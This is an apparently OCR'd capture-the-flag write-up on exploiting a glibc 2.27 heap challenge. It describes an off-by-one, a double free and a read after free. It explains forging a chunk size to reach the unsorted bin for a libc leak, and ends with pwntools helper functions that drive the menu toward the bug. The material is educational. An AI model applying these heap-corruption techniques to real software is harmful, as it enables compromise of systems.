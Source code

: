 ```c
      qword_202068 = (__int64)v0;
    }
    else
    {
      LODWORD(v0) = puts("[-] This is not possible..");
    }
  }
  return (int)v0;
}
```

# Exploitation

## What we have

- An off-by-one when we create a new chunk
- Double free by calling `fix` and then providing an invalid size.
- Trivial read after free thanks to the double free.

## Restrictions

- The program does not use `printf` with a format specifer, then we cannot do a [House of husk](https://maxwelldulin.com/BlogPost?post=3107454976).
- We can only allocate `15` chunks.
- All the allocations except the big one are made using `calloc`, even if it can be easily bypassed by adding the `IS_MAPPED` flag to the chunk header to avoid zero-ing.
- The libc version (`2.27`) mitigates a few techniques, especially the [House of Orange](https://1ce0ear.github.io/2017/11/26/study-house-of-orange/) and introduces the `tcache`.
- Allocations have to fit in only two fastbins (`0x30` / `0x40`), which means we cannot get an arbitrary with a `fastbin dup` technique due to the size of most of interesting memory areas in the libc (`0x7f` => `0x70` fastbin against `0x30` / `0x40` in our case).

## How to leak libc ?

Partial overwrites are as far as I know very hard to get because of `calloc`. The first thing to do is to leak libc addresses to then target libc global variables / structures. The classic way to get a libc leak is to free a chunk that belongs to the unsorted bin and then print it. But as seen previously, we cannot allocate a large chunks that would end up in the unsorted bin. To do so we have to use the off-by-one bug to overwrite the next chunk's size field with a bigger one that would correspond to the unsorted bin (` >= 0x90 `). We can edit the size of the second chunk from `0x30` to `0xb0` by doing:
```py
def add(idx, size, data, hang=False):
    io.sendlineafter(b">> ", b"1")
    io.sendlineafter(b"Choose an index: ", str(idx).encode())
    io.sendlineafter(b"How much space do you need for it: ", str(size).encode())
    if hang == True:
        return

    io.sendlineafter(b"Input your weapon's details: \n", data)

def freexalloc(idx, size, data, doubleFree=False):
    io.sendlineafter(b">> ", b"2")
    io.sendlineafter(b"Choose an index: ", str(idx).encode())
    io.sendlineafter(b"How much space do you need for this repair: ", str(size).encode())

    if doubleFree:
        return

    io.sendlineafter(b"Input your weapon's details: \n", data)
    io.sendlineafter(b">> ", b"1")
```